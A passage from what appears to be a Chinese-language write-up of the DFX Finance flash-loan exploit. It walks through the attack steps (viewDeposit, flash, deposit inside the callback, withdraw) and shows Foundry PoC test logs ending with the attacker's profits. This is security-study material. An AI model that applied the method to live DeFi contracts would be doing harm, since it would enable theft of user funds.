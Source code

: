 ```
        /// function flash
        require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');   // 3. 检查还款
        require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
```
同时，这也验证了攻击者为什么 deposit 大于借款数量，他将flash手续费算进去了，之后 withdraw 提取的代币数量 = 借款数量 + flash手续费，实现无损套利。

### viewDeposit
这时候考虑为什么攻击者通过闪电贷借款金额是那么精准，这时候看到攻击者实施攻击的时候先调用了`dfx-xidr-v2.viewDeposit(_deposit)`来获取 deposit 所需USDC和XIDR数量，从而来确定借款金额。

## 攻击过程回顾
结合以上分析，我们来回顾一下攻击过程：
1. 攻击者首先通过`dfx-xidr-v2.viewDeposit(200,000 ether)`来获取 deposit 所需USDC和XIDR数量；
2. 准备USDC和XIDR 的交易费数量；
3. 通过 `dfx-xidr-v2.flash` 借出 XIDR 以及 USDC；
4. 然后通过 闪电贷 callback 实现调用 `dfx-xidr-v2.deposite`，将贷出的钱 + 手续费 全部 deposite 进了 dfx-xidr-v2.deposite，并获得了相应的质押凭证；
5. 最后，使用 `withdraw` 将 XIDR 和 USDC 提取。
   
# PoC
## 攻击前准备
结合以上过程，我们去实现PoC，我们需要注意首先要先准备 deposit 所需USDC和XIDR数量，这一块怎么实现？
1. 使用 `deal(token,account,amount)`
   我一开始直接使用 `deal(token,account,amount)`给攻击合约充token，也能通过，结果如下
```
Running 1 test for PoC/DFXFinance.t.sol:DFXFinancePoC
[PASS] testExploit() (gas: 782853)
Logs:
  --------------------  Pre-work, stake 100 usdc to EGD Finance --------------------
  Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7
  Attacker prepare flashFee
  -------------------------------- Start Exploit ----------------------------------
  Attacker deposit should xidr Balance 2325581395325581
  Attacker deposit should usdc Balance 100000000000
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker usdc Balance: 100.000000099388527878
  [End] Attacker xidr Balance: 100.002271973497355614
```

2. 通过 ETH 兑换 USDC 和 XDIR
但是我看 DeFiHackLabs 是通过 eth 换成 weth，再通过 router 换成 USDC 和 XDIR ，的确这样更符合实际操作，好吧，我们先找 router 来交换，首先想到的就是uniswapV3，通过查找 xidr 地址发现uniswapV3上有 WETH/XIDR 的[池子](https://app.uniswap.org/explore/tokens/ethereum/0xebf2096e01455108badcbaf86ce30b6e5a72aa52)，那么我们选用UniswapV3Router地址来进行前期资金准备，也通过了
```
[PASS] testExploit() (gas: 718780)
Logs:
  ------------------------------- Pre-work -----------------------------
  Tx: 0x6bfd9e286e37061ed279e4f139fbc03c8bd707a2cdd15f7260549052cbba79b7
  Attacker prepare flashFee
  [Before] Attacker usdc balance before exploit: 956.253438
  [Before] Attacker xidr balance before exploit: 14905893.774030
  -------------------------------- Start Exploit ----------------------------------
  Attacker deposit should xidr Balance 2325581395325581
  Attacker deposit should usdc Balance 100000000000
  Attacker lpToken Balance: 387134878542173576823470.0
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker usdc Balance: 100344.781316
  [End] Attacker xidr Balance: 2286879391.129644
```
